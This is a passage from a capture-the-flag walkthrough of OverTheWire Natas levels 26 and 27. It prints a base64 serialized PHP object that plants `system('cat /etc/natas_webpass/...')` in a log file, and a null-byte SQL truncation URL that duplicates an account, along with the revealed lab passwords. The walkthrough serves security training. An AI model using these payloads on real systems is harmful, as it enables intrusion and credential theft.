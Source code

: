 Running this code will return our new `drawing` cookie value: 

```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MjoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbmF0YXMyN1Bhc3MucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MjI6IiMtLXNlc3Npb24gc3RhcnRlZC0tIwoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MToiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4KIjt9
```

With a cookie editor, replace the `drawing` cookie with this one, and refresh the page. You will know if it works because the website will spit out an error, preventing you from accessing the source code. Access the created log file by going to `/img/natas27Pass.php`, and you'll find the password.

```
u3RRffXjysjgwFU6b9xa23i6prmUsYne
```

# 27

```
Username: natas27
URL:      http://natas27.natas.labs.overthewire.org
```

The website presents a simple login page, with the provided source code.

If there's a user with the provided username, then it will login and show the user's login details, if the password is correct. If it doesn't exist, then it will create a new SQLi entry with those details. We need to try to log in to `natas28`.

The source code also provides the SQL table:

```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

Since the size of the username and passwords are only 64 characters, we can try to post a username that is longer than 64 characters, which would let us pass through without checking if the password matches, creating more than one user called `natas28`.

I did this by passing my GET parameters in the url. The username is "natas28"" followed by around 60 null characters (`%00`) and some random characters ("test") to prevent it from being truncated, and the password is just "test":

```
/?username=natas28%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00test&password=test
```

Passing this onto the website will show `User natas28test was created!`, but in reality the code has created an existing user under `natas28`, allowing us to log in with the password `test`. Doing so will show the password details for the first natas28 user.

```
Welcome natas28!
Here is your data:
Array ( [username] => natas28 [password] => 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj ) 
```
